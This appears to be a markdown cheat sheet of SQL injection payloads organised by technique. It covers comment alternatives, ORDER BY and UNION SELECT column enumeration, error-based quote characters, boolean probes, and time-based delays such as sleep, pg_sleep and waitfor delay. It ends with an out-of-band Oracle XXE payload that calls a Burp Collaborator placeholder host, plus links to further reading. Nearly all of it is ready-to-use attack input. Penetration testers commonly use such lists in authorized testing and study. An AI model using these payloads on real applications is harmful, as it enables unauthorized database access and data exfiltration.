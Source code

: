 <h1>SQL injection detection</h1>

# IN BAND (Classic)
###########################################################################################################

# UNION BASED

"--" Symbol Alternative
```
— 	Inline comment
#	Inline comment
/* 	Block comment
*/ 	Block comment
```
Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+
.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
...
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
..........
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
...
```
BOOLEAN BASED
```
1 AND 1
2 OR 3
2-1
2^1
3*1
%15
1=2
1>2
3
.....
```
TİME BASED
```
sleep(5)
pg_sleep(5)
waitfor delay '0:0:5'
BENCHMARK(10000000,rand())
....
```
OUT-OF-BAND
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%+remote+SYSTEM+"http://BURP-COLLABORATOR-SUBDOMAIN/">+%remote;]>'),'/l')+FROM+dual--
```
Other Resources:
https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf
https://www.pwc.com.tr/tr/assets/pdf/out-of-band-oob-sql-injection.pdf
https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwj-ir6t7bCCAxX_FRAIHVEdCXU4ChAWegQIBRAB&url=https%3A%2F%2Fzenodo.org%2Frecord%2F3556347%2Ffiles%2FA%2520Study%2520of%2520Out-of-Band%2520SQL%2520Injection.pdf%3Fdownload%3D1&usg=AOvVaw0hGkiklfL04cE-qOCuEaPa&opi=89978449
https://www.w3schools.com/sql/sql_comments.asp
